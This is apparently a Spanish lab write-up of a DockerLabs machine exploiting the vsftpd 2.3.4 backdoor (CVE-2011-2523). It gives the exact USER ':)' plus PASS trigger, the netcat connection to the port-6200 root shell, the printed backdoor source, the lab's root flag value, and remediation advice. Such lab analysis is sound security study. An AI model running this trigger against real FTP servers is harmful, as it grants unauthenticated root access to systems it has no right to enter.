





# Auditoría de Seguridad — Tproot (CVE-2011-2523)

- **Objetivo:** 172.17.0.2
- **Fecha:** 2026-10-18
- **Autor:** chifay
- **Directorio de trabajo:** `~/DockerLabs/Muy Fácil/Tproot`
- **Clasificación:** Máquina de laboratorio (DockerLabs / dockerlabs.es)
- **Vector:** Backdoor de vsftpd 2.3.4 (CVE-2011-2523)

---

## Bandera

| Nivel | Ubicación | Valor |
|---|---|---|
| Root | `/root/root.txt` | `261fd3f32200f950f231816b4e9a0594` |

> Este laboratorio tiene una **única** bandera, de root. No existe `user.txt`: el
> objetivo del ejercicio es precisamente alcanzar `uid=0` sin autenticación
> válida, exploiting el backdoor del propio servidor FTP.

---

## Resumen ejecutivo

El objetivo expone un **vsftpd 2.3.4 compilado con la infamous puerta
trasera** de 2011. No hubo que buscar credenciales válidas, ni explotar una
vulnerabilidad remota, ni encadenar ninguna otra debilidad: el backdoor está
compilado en el binario que sirve el servicio.

```
nmap → banner "220 (vsFTPd 2.3.4)" →
USER backdoor:) + PASS → el servidor abre 0.0.0.0:6200 →
nc 172.17.0.2 6200 → /bin/sh como uid=0(root) → /root/root.txt
```



**Tres hallazgos que van más allá del exploit:**

1. **El árbol de fuentes infectado está dentro del contenedor**, en
   `/tmp/vsftpd-2.3.4-infected`, con su repositorio `.git`. El commit
   `e084c95 "reapply infection"` documenta la inyección línea a línea.
2. **El trigger exige un `PASS` además del `USER` malicioso**, y el nombre de
   usuario no puede empezar por `:`. Ningún exploit público documenta esto.
3. **El backdoor es de un solo uso**: `execl()` reemplaza la imagen del
   proceso, el bucle de `accept()` desaparece y el listener muere con el shell.

---

## Fase 1 — Reconocimiento

Escaneo completo de los 65535 puertos TCP:

```
$ nmap -p- -sV -sC -sT -vv -n -Pn --min-rate=5000 172.17.0.2

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp"
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
```

Solo dos puertos. El acceso anónimo falla porque `/var/ftp` no existe en la
imagen, pero el banner delata la versión exacta:

```
220 (vsFTPd 2.3.4)
```

Esa versión es la señal: **2.3.4 es precisamente la build infectada** de la
que habla la CVE-2011-2523.

---

## Fase 2 — El trigger del backdoor

### Secuencia

```bash
$ nc 172.17.0.2 21
220 (vsFTPd 2.3.4)
USER backdoor:)
331 Please specify the password.
PASS x
(sin respuesta — el servidor queda colgado)
```

En ese instante el proceso hijo de vsftpd llama a `vsf_sysutil_extra()`,
que enlaza el puerto 6200 y entra en un bucle de `accept()`:

```
$ ss -tlnp | grep 6200
LISTEN 0 128 0.0.0.0:6200 0.0.0.0:*
```

La sesión FTP **debe permanecer abierta** mientras se usa el shell.

### Caracterización experimental

Probé 13 variantes de nombre de usuario para aislar la regla exacta:

| Caso | Respuesta al PASS | 6200 | Interpretación |
|---|---|---|---|
| `backdoor:)` | (sin respuesta) | **ABIERTO** | caso de referencia |
| `a:)` | (sin respuesta) | **ABIERTO** | magic en el offset 1 |
| `ab:)`, `abc:)` | (sin respuesta) | **ABIERTO** | idéntico |
| `x:)y` | (sin respuesta) | **ABIERTO** | el magic no necesita ir al final |
| `:)`, `:))`, `::)` | `530 Login incorrect.` | CERRADO | primer carácter `:` → descartado |
| `:)x`, `:)x:)` | `530 Login incorrect.` | CERRADO | ídem, aunque haya un segundo magic válido |
| `:x)` | `530 Login incorrect.` | CERRADO | ídem |
| ` :)` | `530 Login incorrect.` | CERRADO | el espacio inicial impide el login |
| `a :)` | `530 Login incorrect.` | CERRADO | el espacio corta el barrido antes del magic |
| `backdoor:)` **sin PASS** | (no procede) | CERRADO | el `PASS` es obligatorio |



**Regla empírica del trigger:**

1. El usuario **debe empezar por** `[A-Za-z0-9_.]`
2. El usuario **no puede contener espacios antes** de `:)` — el barrido se
   detiene en el primer espacio
3. El usuario **debe contener** la secuencia `:)` en cualquier posición
4. Tras el `USER` **debe enviarse un `PASS`**

Los puntos 1 y 2 no son el backdoor: son las **validaciones normales** de
`handle_login()` que se ejecutan *antes* de llegar a él.

---

## Fase 3 — Shell root

```bash
$ nc 172.17.0.2 6200
$ id
uid=0(root) gid=0(root) groups=0(root)
$ whoami
root
$ hostname
dockerlabs
$ cat /etc/os-release | head -3
PRETTY_NAME="Ubuntu 24.04.1 LTS"
NAME="Ubuntu"
VERSION_ID="24.04"
```

```
$ cat /root/root.txt
261fd3f32200f950f231816b4e9a0594
```

---

## Fase 4 — Análisis del código fuente

El contenedor conserva el árbol de fuentes completo **con su repositorio
git**, lo que permite documentar la infección en lugar de deducirla.

```
$ cd /tmp/vsftpd-2.3.4-infected
$ git log --oneline --all
e084c95 reapply infection     ← el backdoor
311e7b9 initial vsftpd files
```

```
$ git log -1 --format='%an <%ae>%n%ad' e084c95
Nik Du Bois <nik.dubois@otnsystems.com>
Wed Aug 3 11:23:05 2016 +0200
```

El commit añade un fichero `infection.diff` con el diff *original vs
infectado* y aplica ese mismo diff sobre el código. El propio mensaje del
commit lo dice: *"undo changes shown in diff in infection report"*.



### El recorrido completo



**1 · `privops.c` — `handle_login()`** (se ejecuta tras recibir USER *y* PASS)

```c
/* Throw out dodgy start characters */
first_char = str_get_char_at(p_user_str, 0);
if (!vsf_sysutil_isalnum(first_char) &&
    first_char != '_' &&
    first_char != '.')
{
  return kVSFLoginFail;        // ← ':)' ni siquiera llega al backdoor
}
/* Throw out non-printable characters and space in username */
if (str_contains_space(p_user_str) ||
    str_contains_unprintable(p_user_str))
```

**2 · `str.c` — `str_contains_space()`**, con el chequeo inyectado:

```c
for (i=0; i < p_str->len; i++)
{
  if (vsf_sysutil_isspace(p_str->p_buf[i]))
  {
    return 1;                  // ← corta el barrido en el primer espacio
  }
  else if((p_str->p_buf[i]==0x3a)      // ':'
  && (p_str->p_buf[i+1]==0x29))        // ')'
  {
    vsf_sysutil_extra();
  }
}
```

**3 · `sysdeputil.c` — `vsf_sysutil_extra()`**

```c
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0) exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

### Por qué el shell es root

`handle_login()` corre en el **proceso hijo**, antes de que vsftpd ceda el
proceso al usuario sin privilegios (`nobody`). El `execl("/bin/sh")` hereda ese
`euid=0`. La configuración activa tampoco define `chroot_local_user` ni
`seccomp_sandbox`, de modo que nada limita la ejecución del shell.

---

## Fase 5 — El backdoor es de un solo uso

Este detalle no aparece en ningún write-up público y cambia cómo se explota:

```
1) Trigger + conexión A  →  shell root (uid=0)         marcador=A  SI
2) Conexión B con A viva →  TCP conecta pero SIN shell  marcador=B  NO
3) Tras cerrar A         →  6200 deja de escuchar      Connection refused
4) Trigger de nuevo      →  shell root de nuevo        marcador=R2 SI
```



**Causa:** `execl()` no crea un proceso hijo, **sustituye la imagen del
proceso actual**. En cuanto se acepta la primera conexión, el bucle
`for(;;){ accept(...) }` deja de ejecutarse. El socket sigue ligado porque lo
hereda el shell, pero ya nadie acepta: una segunda conexión entra en la cola
del backlog y se queda ahí.

**Consecuencias prácticas:**

- Un trigger entrega **un** shell root. Hay que mantenerlo vivo.
- Al cerrarlo, el listener desaparece por completo.
- Si el 6200 ya está ocupado, el `bind()` del nuevo hijo falla y hace
  `exit(1)`.
- La sesión FTP debe seguir abierta mientras se usa el shell: al cerrarla,
  el proceso hijo muere con ella.

---

## Fase 6 — Entorno del objetivo

```
PID 1   /bin/sh -c service apache2 start && sudo ./vsftpd vsftpd.conf
PID 87  sudo ./vsftpd vsftpd.conf
PID 88  ./vsftpd vsftpd.conf          ← listener principal (root)
```

Todos los procesos ejecutan el binario desde el árbol infectado:

```
$ readlink /proc/88/cwd
/tmp/vsftpd-2.3.4-infected
$ ls -la /tmp/vsftpd-2.3.4-infected/vsftpd
-rwxr-xr-x 1 root root 147768 Feb  3  2025 vsftpd
```

Configuración activa (`vsftpd.conf`):

```
anonymous_enable=YES
dirmessage_enable=YES
xferlog_enable=YES
connect_from_port_20=YES
listen=YES
local_enable=YES
write_enable=YES
```

Sin `chroot_local_user` ni `seccomp_sandbox`.

---

## Hallazgos consolidados

| # | Hallazgo | Severidad |
|---|---|---|
| 1 | vsftpd 2.3.4 con backdoor compilado: ejecución remota de root sin autenticación | **Crítica** |
| 2 | El árbol de fuentes infectado y su repositorio git quedan en el contenedor (`/tmp/vsftpd-2.3.4-infected`) | **Alta** |
| 3 | Configuración sin `seccomp_sandbox`: no se restringe la ejecución de `/bin/sh` | Alta |
| 4 | Configuración sin `chroot_local_user`: el shell root escribe en todo el sistema | Alta |
| 5 | `write_enable=YES` con `local_enable=YES`: escritura FTP con cuenta local | Media |
| 6 | El acceso anónimo falla con `500 OOPS` por `/var/ftp` inexistente: ftp-banner revela versión | Baja |
| 7 | Apache 2.4.58 en el puerto 80 sirve la página por defecto de Ubuntu | Info |

## Recomendaciones

1. **Actualizar vsftpd** a una versión maintained (≥ 3.0.3) o eliminar el
   servicio si no se usa. La build infectada no debe estar en producción.
2. **No distribuir la imagen infectada**; el árbol de fuentes en `/tmp` es en
   sí un hallazgo: elimina la evidencia de la infección del sistema.
3. **Activar `seccomp_sandbox=YES`** y `chroot_local_user=YES` para limitar el
   alcance de una ejecución de shell.
4. **Rotar credenciales** de cualquier cuenta local accesible por FTP.
5. **Filtrar el 6200** en el perímetro si el servicio debe exponerse: el
   backdoor escucha en `INADDR_ANY`, no solo en loopback.
6. **Monitorizar** conexiones entrantes al 6200 y al 21 con origen externo.

---

## Nota sobre la reproducibilidad

El exploit está en `tools/vsftpd_backdoor.py`:

```bash
python3 tools/vsftpd_backdoor.py -H 172.17.0.2 -c "id; cat /root/root.txt"
python3 tools/vsftpd_backdoor.py -H 172.17.0.2 -i     # shell interactiva
```

Y `tools/bsh.py` permite ejecutar comandos arbitrarios por el backdoor, que es
la base de `tools/capture_evidence.py`.

> ⚠️ **Material sensible:** estas herramientas dan acceso root sin
> credenciales. `evidence/` no contiene credenciales de usuario (el backdoor no
> las necesita), pero sí el código fuente del backdoor y la bandera del
> laboratorio, que es justamente la prueba. Revisa `evidence/` antes de
> compartirlo fuera del ámbito del laboratorio.

---

## Evidencia y artefactos

| Archivo | Descripción |
|---|---|
| `evidence/01-recon/` | Salida de nmap y banner del servicio FTP |
| `evidence/02-backdoor-trigger/` | Secuencia del trigger y matriz de 13 casos |
| `evidence/03-root-shell/` | Identidad del shell, bandera y prueba de un solo uso |
| `evidence/04-source-analysis/` | Commit, `str_contains_space()`, `handle_login()` y `vsf_sysutil_extra()` |
| `evidence/05-environment/` | Procesos, binario y configuración activa |
| `evidence/SHA256SUMS` | Huellas SHA-256 de cada artefacto |
| `tools/vsftpd_backdoor.py` | Exploit del backdoor (comando o shell interactiva) |
| `tools/bsh.py` | Ejecutor de comandos por el backdoor |
| `tools/capture_evidence.py` | Regenera toda la evidencia |
| `tools/check_svg.py` | Verificador de XML y desbordes de texto en los SVG |
| `img/01-kill-chain.svg` / `.png` | Cadena de ataque completa |
| `img/02-backdoor-mechanism.svg` / `.png` | Mecanismo a nivel de código fuente |
| `img/03-trigger-matrix.svg` / `.png` | Matriz de caracterización del trigger |
| `img/04-single-use.svg` / `.png` | Comportamiento de un solo uso |
| `img/05-infection-diff.svg` / `.png` | La infección commit a commit |

### Limpieza

Esta auditoría es **de solo lectura** sobre el objetivo: el backdoor no exige
escribir nada, únicamente abrir conexiones. No se ha modificado ningún fichero
del contenedor. El único cambio es el estado del proceso (la sesión FTP y el
shell del 6200), que se cierra solo al terminar la sesión.
